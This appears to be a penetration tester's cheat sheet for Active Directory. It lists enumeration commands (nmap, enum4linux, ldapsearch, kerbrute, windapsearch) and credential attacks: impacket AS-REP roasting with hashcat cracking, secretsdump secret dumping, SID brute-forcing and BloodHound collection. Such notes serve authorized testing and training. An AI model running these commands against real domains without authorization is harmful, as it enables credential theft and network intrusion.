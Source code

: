 # Active Directory

## AD MindMap

[https://www.xmind.net/m/5dypm8/](https://www.xmind.net/m/5dypm8/)

## Tools

### nmap

- enum ldap properties

```
nmap -n -sV --script "ldap* and not brute" -p 389 $ip -Pn

```

- enumerate users

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$dom',userdb=/opt/wordlist/list.txt" $ip

```

### enum4linux

- list share, get domain name etc..

```
enum4linux -a $ip

```

- enumerate users

```
enum4linux -U $ip | grep 'user:'

```

### windapsearch

- enumerate users, domain name

```
python3 windapsearch.py --dc-ip $ip --users --full > wdapusers.txt
grep sAMAccountName wdapusers.txt | cut -d " " -f 2 > users.txt

```

### ldapsearch

- enumerate ldap properties

```
ldapsearch -x -h $ip -s base

```

- enumerate users

```
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"

```

- credential dumping

```
ldapsearch -LLL -x -H ldap://$ip -b "dc=domain,dc=local" -s base '(objectclass=*)'

```

### kerbrute

```
kerbrute userenum --dc $ip -d $dom /path/to/list.txt

```

### impacket

- check asreproast for a list of user

```
GetNPUsers.py domain.tld/ -dc-ip $ip -usersfile /path/to/list.txt

GetNPUsers.py -usersfile /path/to/list.txt -format hashcat -outputfile hashes.asreproast -dc-ip $ip $dom/
# crack the hash with hashcat -m 18200

```

- dump secret

```
secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0

```

- brute force domain sids

```
lookupsid.py anonymous@$ip

```

### bloodhound

```
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0

```